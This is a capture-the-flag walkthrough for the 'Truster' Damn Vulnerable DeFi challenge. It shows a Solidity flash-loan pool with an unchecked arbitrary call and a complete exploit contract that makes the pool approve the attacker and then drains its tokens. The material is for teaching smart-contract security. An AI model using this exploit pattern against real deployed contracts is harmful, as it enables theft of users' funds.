 # Truster #
Here is the contract that we will be reviewing.

`pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";

contract TrusterLenderPool is ReentrancyGuard {

    IERC20 public damnValuableToken;

    constructor (address tokenAddress) public {
        damnValuableToken = IERC20(tokenAddress);
    }

    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        (bool success, ) = target.call(data);
        require(success, "External call failed");

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

}`


In this challenge the vulnerability is with the low level call in the `flashLoan` function.        
`        (bool success, ) = target.call(data);
        require(success, "External call failed");`
With data passed in as parameter, we can put in a malicious code into it and make a call to it.

here we create a contract to exploit the `TrusterLenderPool` contract

`contract TrusterExploit {
    function attack ( address _pool, address _token) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token);

        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)", address(this), uint(-1)
        );

        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool , msg.sender, token.balanceOf(_pool));
    }
}`

so here is a solution to the code
here we encode the ERC20 approve function passing in the TrusterExploit address and the maximum number of uint(uint(-1)) will cause overflow and will return the maximum number of uint (115792089237316195423570985008687907853269984665640564039457584007913129639935)

The `flashLoan` function in the `TrusterLenderPool` is called with the encoded data passed in.

we borrowed 0 token from the flashloan so we don't have any amounbt to pay back. but what we do here is we made the `TrusterLenderPool` contract to approve our contract to spend all the `damnValuableToken` in the contract. 

`token.transferFrom(_pool , msg.sender, token.balanceOf(_pool));` here we transfer the approve token out to our address (msg.sender).

here is a link to the solution to the challenge [solution](https://github.com/Ultra-Tech-code/damn-vulnerable-defi/blob/7edb89e5cb7464179bfc99fa4824f8efa48d6d0b/test/truster/truster.challenge.js#L33)

